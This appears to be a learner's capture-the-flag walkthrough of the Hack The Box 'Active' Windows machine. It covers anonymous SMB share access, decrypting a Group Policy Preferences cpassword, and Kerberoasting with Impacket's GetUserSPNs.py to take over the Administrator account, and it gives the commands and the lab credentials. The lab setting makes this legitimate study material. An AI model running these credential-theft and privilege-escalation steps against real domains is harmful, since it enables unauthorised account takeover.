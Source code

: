 
---
title: Active
desctiption: active walkthrough
---

Dificulty: Easy Window Machine

![image.png](../../../assets/ACTIVE/image.png)

### Initial state

![image.png](../../../assets/ACTIVE/image%201.png)

### Recon

**Nmap**

![image.png](../../../assets/ACTIVE/image%202.png)

![image.png](../../../assets/ACTIVE/image%203.png)

The Nmap scan reveals domain name “active.htb”. So let’s add this to our host file and start enumerating SMB service.

### Enumeration

![image.png](../../../assets/ACTIVE/image%204.png)

This is my first time using smbmap, so let's explore the SMB service. 

![image.png](../../../assets/ACTIVE/image%205.png)

There are 7 shares, and we have read access to the Replication share. Let's connect to the Replication share and see what's inside it.

![image.png](../../../assets/ACTIVE/image%206.png)

```bash
smbclient //active.htb/Replication -N
```

This command connects to the shared folder `Replication`, and `-N` connects without using a password. Now we are connected to the Replication folder. Let's explore this folder:

```bash
Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
```

While exploring the folder, there is a file called `Groups.xml`.

![image.png](../../../assets/ACTIVE/image%207.png)

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" 
        name="active.htb\SVC_TGS" 
        image="2" 
        changed="2018-07-18 20:46:06" 
        uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" 
                newName="" 
                fullName="" 
                description="" 
                cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" 
                changeLogon="0" 
                noChange="1" 
                neverExpires="1" 
                acctDisabled="0" 
                userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

The `Groups.xml` file contains the username `SVC_TGS` and an encrypted password (`cpassword`). This is a GPP-encrypted password.

![image.png](../../../assets/ACTIVE/image%208.png)

Let's do this!!

![image.png](../../../assets/ACTIVE/image%209.png)

Now I have the password, so let’s log in to the user shares.

![image.png](../../../assets/ACTIVE/image%2010.png)

![image.png](../../../assets/ACTIVE/image%2011.png)

### Kerberoasting

![image.png](../../../assets/ACTIVE/image%2012.png)

![image.png](../../../assets/ACTIVE/image%2013.png)

What is Kerberoasting?

![image.png](../../../assets/ACTIVE/image%2014.png)

[HTB: Active](https://0xdf.gitlab.io/2018/12/08/htb-active.html)  
[https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

I'm gonna use `GetUserSPNs.py` script from Impacket to get a list of service usernames. It will also fetch the ticket so I can crack it.

Got the session:

```bash
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

Result:
```bash
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-07-07 03:06:18.670972             
```

The ticket hash (Kerberos TGS ticket) is dumped. Let’s crack it using John the Ripper.

![image.png](../../../assets/ACTIVE/image%2015.png)

Found the password for Administrator! Let's login as Administrator.

![image.png](../../../assets/ACTIVE/image%2016.png)

Logged in as Administrator.

![image.png](../../../assets/ACTIVE/image%2017.png)

![image.png](../../../assets/ACTIVE/image%2018.png)

![image.png](../../../assets/ACTIVE/image%2019.png)

### Learning

After completing this machine, I learned about **Kerberoasting**, a technique that targets service accounts in Active Directory. Since **Kerberoasting** is a known attack, it made privilege escalation easier. I also spent more time working with **SMB** while dealing with Windows machines and every time I do, I gain new insights and knowledge. I feel like Windows is a little bit complicated compared to Linux since I am not very familiar with it. Capturing the root flag doesn’t feel like a privilege escalation in Windows, whereas in Linux I will be as a root user.

### Reference

- [HTB: Active](https://0xdf.gitlab.io/2018/12/08/htb-active.html)
- [HackTheBox: Active Walkthrough](https://sanaullahamankorai.medium.com/hackthebox-active-walkthrough-83b87bae691b)
- [Exploiting Kerberos for Lateral Movement & Privilege Escalation | NopSec](https://www.nopsec.com/blog/exploiting-kerberos-for-lateral-movement-and-privilege-escalation/)